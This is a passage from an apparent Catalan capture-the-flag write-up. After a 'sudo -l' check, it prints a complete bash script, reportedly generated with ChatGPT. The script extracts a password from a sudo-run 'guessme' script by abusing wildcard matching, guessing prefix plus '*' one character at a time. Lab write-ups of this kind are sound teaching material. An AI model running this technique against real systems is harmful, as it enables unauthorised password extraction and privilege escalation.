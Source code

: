 ```bash
sudo -l
```

Analitzem el script `guessme` i utilitzem ChatGPT per generar un script en bash que aprofiti la vulnerabilitat i endevini la contrasenya. En aquest punt estàvem una mica cansats i no teníem ganes d'escriure codi 😅

**getpass.sh**

```bash
#!/bin/bash
# Conjunto de caracteres a probar; puedes ampliarlo según tus necesidades.
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{};:,.<>/?`~'

# Variable para almacenar el prefijo encontrado (la contraseña)
password=""

# Función que ejecuta guessme con un input dado y devuelve la salida
function test_guess() {
    local guess="$1"
    # Se envía el input sin salto de línea adicional
    echo -n "$guess" | sudo /bin/bash /home/ll104567/guessme 2>/dev/null
}

echo "Iniciando extracción de contraseña..."

while true; do
    # Primero, probamos si el prefijo actual ya es la contraseña completa.
    output=$(test_guess "$password")
    if [[ "$output" == *"Password matches!"* ]]; then
        echo "¡Contraseña encontrada: $password!"
        break
    fi

    found=0
    # Iteramos por cada carácter del alfabeto
    for (( i=0; i<${#alphabet}; i++ )); do
        c="${alphabet:$i:1}"
        guess="${password}${c}*"
        output=$(test_guess "$guess")
        if [[ "$output" == *"Password matches!"* ]]; then
            password="${password}${c}"
            echo "Caracter encontrado: '$c' -> Contraseña parcial: $password"
            found=1
            break
        fi
    done

    # Si no se encontró extensión, se detiene el script.
    if [ $found -eq 0 ]; then
        echo "No se pudo extender la contraseña. Contraseña parcial: $password"
        break
    fi
done
```
